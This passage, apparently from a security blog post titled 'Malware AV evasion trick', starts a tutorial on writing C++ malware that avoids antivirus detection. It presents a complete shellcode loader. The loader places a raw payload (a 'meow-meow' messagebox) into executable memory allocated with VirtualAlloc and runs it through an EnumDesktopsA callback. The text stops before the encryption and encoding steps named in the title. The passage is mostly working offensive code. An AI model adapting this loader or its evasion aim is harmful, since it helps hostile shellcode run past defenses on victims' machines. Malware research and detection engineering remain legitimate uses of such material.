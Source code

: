 ```yaml
---
layout: post
title: Malware AV evasion trick. Encrypt and encode payload
---
```


Today, we will write a simple malware in C++ that will launch our payload: `meow-meow` messagebox. Then try to reduce the number of AV engines that will detect our malware.     

### practical example

First of all, create simple C++ malware (`hack0.c`):     

```cpp
#include <windows.h>

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  unsigned int my_payload_len = sizeof(my_payload);
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL); 
 
  return 0;
}

```
